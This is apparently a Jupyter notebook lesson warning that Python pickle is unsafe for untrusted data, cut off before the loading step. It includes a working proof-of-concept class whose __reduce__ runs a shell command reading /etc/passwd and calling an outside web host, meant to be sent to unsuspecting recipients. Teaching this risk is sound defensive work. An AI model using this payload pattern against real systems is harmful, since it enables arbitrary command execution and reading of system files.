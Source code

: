 ```yaml
---
jupyter:
  jupytext:
    text_representation:
      extension: .md
      format_name: markdown
      format_version: '1.1'
      jupytext_version: 1.2.4
  kernelspec:
    display_name: Python 3
    language: python
    name: python3
---
```


### Pickling


#### Not Secure!


Pickling is not a secure way to deserialize data objects. **DO NOT** unpickle anything you did not pickle yourself. You have been **WARNED**!


Here's how easy it is to create an exploit.

I am going to pickle an object that is going to use the unix shell (admittedly this will not work on Windows, but it could with some more complicated code - plus I don't need this to run on every machine in the world, just as many as possible - at least that's the mindset if I were a hacker I guess)

```python
import os
import pickle


class Exploit():
    def __reduce__(self):
        return (os.system, ("cat /etc/passwd > exploit.txt && curl www.google.com >> exploit.txt",))


def serialize_exploit(fname):
    with open(fname, 'wb') as f:
        pickle.dump(Exploit(), f)
```

Now, I serialize this code to a file:

```python
serialize_exploit('loadme')
```

Now I send this file to some unsuspecting recipients and tell them they just need to load this up in their Python app. They deserialize the pickled object like so:
